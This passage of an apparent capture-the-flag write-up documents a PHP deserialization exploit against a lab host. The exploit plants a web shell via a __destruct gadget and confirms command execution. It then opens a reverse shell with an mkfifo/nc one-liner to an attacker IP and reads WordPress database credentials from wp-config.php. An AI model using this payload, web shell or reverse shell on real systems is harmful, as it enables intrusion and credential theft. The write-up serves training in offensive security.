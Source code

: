 ```php
<?php 

class DatabaseExport
{
    public $user_file = 'shell.php';
    public $data = '<?php system($_GET["cmd"]); ?>';
    
    public function update_db()
    {
        echo '[+] Grabbing users from text file <br>';
        $this-> data = 'Success';
    }
    
    public function __destruct()
    {
        file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
        echo '[] Database updated <br>';
        //    echo 'Gotta get this working properly...';
    }
}

$url = 'http://10.10.10.223/sator.php?arepo=';
$arepo = $url . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$arepo");
print "$response";
```

After its execution, I was able to issue the `id` command by using curl as we can see below.

```bash
$ php exploit.php
[] Database updated <br>[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>   

$ curl -L http://10.10.10.223/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we had a confirmed RCE, make the call to obtain a reverse shell as the following example:

```bash
curl -G --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.136 4443 >/tmp/f" http://10.10.10.223/shell.php
```

## User Flag

Accessing the box, once we already knew that at least one wordpress instance was present, searched for the `wp-config.php` file where I got the credentials for user **neil**

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
